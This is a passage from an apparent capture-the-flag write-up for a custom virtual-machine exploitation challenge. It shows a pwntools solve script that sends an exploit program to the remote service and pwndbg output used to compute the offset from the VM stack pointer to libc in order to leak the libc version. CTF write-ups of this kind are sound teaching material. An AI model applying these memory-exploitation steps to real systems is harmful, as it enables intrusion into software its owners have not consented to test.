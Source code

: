 ```py
ru = lambda x: io.recvuntil(x, drop=True)
cl = lambda: io.clean(timeout=1)
s = lambda x: io.send(x)
sa = lambda x, y: io.sendafter(x, y)
sl = lambda x: io.sendline(x)
sla = lambda x, y: io.sendlineafter(x, y)
ia = lambda: io.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)


if args.REMOTE:
	exp = open("./exp.vm").read()
	sla(b'(< 4096) :', str(len(exp)).encode())
	s(exp.encode())

ia()
```


- run on local `./solve.py`
- run on local with `gdb` `./solve.py GDB`
- run on remote `./solve.py REMOTE`


### Leak libc version

To do so, we have to move vm's `esp` register to point at the beginning of `libc` section in memory. We can quickly calculate offset using the debugger:

```c
pwndbg> vmmap libc
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7fed234f0000     0x7fed23518000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23518000     0x7fed236ad000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed236ad000     0x7fed23705000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23705000     0x7fed23709000 r--p     4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23709000     0x7fed2370b000 rw-p     2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6
pwndbg> sp
$9 = {
  i32 = 0x1f6ec010,
  i32_ptr = 0x7fed1f6ec010,
  i16 = {
    h = 0xc010,
    l = 0xc010
  }
}
pwndbg> dist 0x7fed234f0000 0x7fed1f6ec010
0x7fed234f0000->0x7fed1f6ec010 is -0x3e03ff0 bytes (-0x7c07fe words)
```

Let's verify that thesis by crafting simple vm program and running it on a local env:
